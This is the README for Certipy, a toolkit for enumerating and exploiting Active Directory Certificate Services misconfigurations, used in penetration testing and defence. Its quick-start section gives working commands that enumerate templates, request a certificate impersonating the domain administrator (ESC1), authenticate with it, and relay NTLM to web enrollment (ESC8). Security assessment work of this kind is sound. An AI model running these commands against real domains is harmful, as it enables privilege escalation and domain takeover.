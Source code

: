 # Certipy - AD CS Attack & Enumeration Toolkit

[![PyPI version](https://badge.fury.io/py/certipy-ad.svg)](https://badge.fury.io/py/certipy-ad)
![Python](https://img.shields.io/badge/python-3.12+-blue.svg)
![License](https://img.shields.io/github/license/ly4k/Certipy)

**Certipy** is a powerful offensive and defensive toolkit for enumerating and abusing Active Directory Certificate Services (AD CS). It helps red teamers, penetration testers, and defenders assess AD CS misconfigurations — including full support for identifying and exploiting all known **ESC1–ESC15** attack paths (excluding ESC5).

> [!WARNING]
> Use only in environments where you have explicit authorization. Unauthorized use may be illegal.

---

## 🔍 Features

- 🔎 Discover Enterprise Certificate Authorities and Templates
- 🚩 Identify misconfigurations (e.g., ESC1–ESC15)
- 🔐 Request and forge certificates
- 🎭 Perform authentication using certificates (PKINIT/Schannel)
- 📡 Relay NTLM authentication to AD CS HTTP/RPC endpoints
- 🧪 Support for Shadow Credentials, Golden Certificates, and Certificate Mapping Attacks

---

## 📚 Full Wiki & Documentation

Read the full **step-by-step usage guide**, including installation, vulnerability explanations, examples, and mitigations in the [📘 Certipy Wiki](https://github.com/ly4k/Certipy/wiki).

---

## ⚙️ Installation

Certipy supports **Python 3.12+** on both **Linux** and **Windows**. Linux is the primary supported platform, but core functionality works on Windows as well.

> [!TIP]
> **For Kali Linux Users**  
> Certipy is pre-installed in Kali under the command name `certipy-ad`.  
> The Kali package is **not maintained by the original author** and may **lag behind the latest version**.  
> For the latest features and fixes, install from PyPI manually using `pip`.

### 🐧 Linux (Debian/Ubuntu/Kali)

```bash
sudo apt update && sudo apt install -y python3 python3-venv python3-pip
python3 -m venv ~/certipy-env
source ~/certipy-env/bin/activate
pip install --upgrade pip
pip install certipy-ad
````

### 🪟 Windows (PowerShell)

```powershell
python -m venv certipy-env
certipy-env\Scripts\Activate.ps1
pip install --upgrade pip
pip install certipy-ad
```

Verify installation:

```bash
certipy -h
```

---

## 🚀 Quick Start

### Enumerate CAs and Templates

```bash
certipy find -u 'user@corp.local' -p 'Passw0rd!' -dc-ip 10.0.0.100
```

### Request a Certificate for Another User (ESC1-style)

```bash
certipy req -u 'user@domain.local' -p 'Passw0rd!' \
  -ca 'CORP-CA' -target 'CA.CORP.LOCAL' \
  -template 'ESC1' \
  -upn 'administrator@corp.local' \
  -sid 'S-1-5-21-2328196741-663698128-2762965104-500' \
  -dc-ip 10.0.0.100
```

### Authenticate with a Certificate

```bash
certipy auth -pfx ./administrator.pfx -dc-ip 10.0.0.100
```

### NTLM Relay to AD CS Web Enrollment (ESC8)

```bash
certipy relay -ca http://ca.corp.local -template DomainController
```

---

## ✅ Supported ESC Vulnerabilities

Certipy provides comprehensive support for detecting and exploiting AD CS vulnerabilities **ESC1 – ESC15** (excluding ESC5)

For detailed explanations, exploitation steps, and mitigation strategies, refer to the [Certipy Wiki](https://github.com/ly4k/Certipy/wiki).

---

## 📎 Related Tools & References

* 📘 [Certified Pre-Owned – SpecterOps](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* 🔭 [BloodHound PKI Attack Paths](https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-1-799f3d3b03cf)
* 🛡️ [Microsoft AD CS Hardening Guide](https://learn.microsoft.com/en-us/defender-for-identity/security-assessment-prevent-users-request-certificate)

---

## 🛡️ Disclaimer

This tool is designed exclusively for use in **authorized penetration testing**, **red teaming**, **security assessments**, and **security research**. **Do not use** in environments where you do not have **explicit written permission**. Unauthorized use may violate laws and ethical standards.

---

## 🤝 Contributing

Contributions are welcome! See [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines on reporting issues, improving documentation, or submitting pull requests.

---

## 🌟 Sponsors

Thanks to these generous sponsors for supporting the development of this project. Your contributions help sustain ongoing work and improvements.

<!-- sponsors --><a href="https://github.com/fgeek"><img src="https:&#x2F;&#x2F;github.com&#x2F;fgeek.png" width="60px" alt="User avatar: Henri Salo" /></a><a href="https://github.com/mxrch"><img src="https:&#x2F;&#x2F;github.com&#x2F;mxrch.png" width="60px" alt="User avatar: mxrch" /></a><!-- sponsors -->

---

## 👤 Author

Developed by [@ly4k](https://github.com/ly4k)
Contributions welcome via pull requests or issues.

---

## 📘 Wiki

📖 Visit the [**Certipy Wiki**](https://github.com/ly4k/Certipy/wiki) for detailed documentation, usage examples, ESC vulnerability breakdowns, and mitigation advice.
